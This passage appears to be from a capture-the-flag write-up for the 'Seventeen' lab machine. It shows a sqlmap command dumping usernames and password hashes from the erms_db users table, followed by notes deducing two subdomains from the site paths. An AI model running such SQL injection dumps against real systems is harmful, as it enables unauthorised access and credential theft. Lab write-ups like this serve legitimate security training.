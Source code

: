 ```console
└─╼$ sqlmap -r request.txt -p id --batch -t 12 -D erms_db -T users -C username,password --dump
Database: erms_db
Table: users
[3 entries]
+------------------+----------------------------------+
| username         | password                         |
+------------------+----------------------------------+
| Stev1992         | 184fe92824bea12486ae9a56050228ee |
| UndetectableMark | 48bb86d036bb993dfdcf7fefdc60cc06 |
| admin            | fc8ec7b43523e186a27f46957818391c |
+------------------+----------------------------------+
```

![image-20240305013842238](./Seventeen.assets/image-20240305013842238.png)

erms website directory: -> /var/www/erms | exam
avatar path: ../oldmanagement/files/avatar.png -> another site under /var/www/ => /var/www/oldmanagement

Deduction:

- one subdomain: exam.seventeen.htb

- another subdomain: oldmanagement.seventeen.htb

![image-20240305014316886](./Seventeen.assets/image-20240305014316886.png)
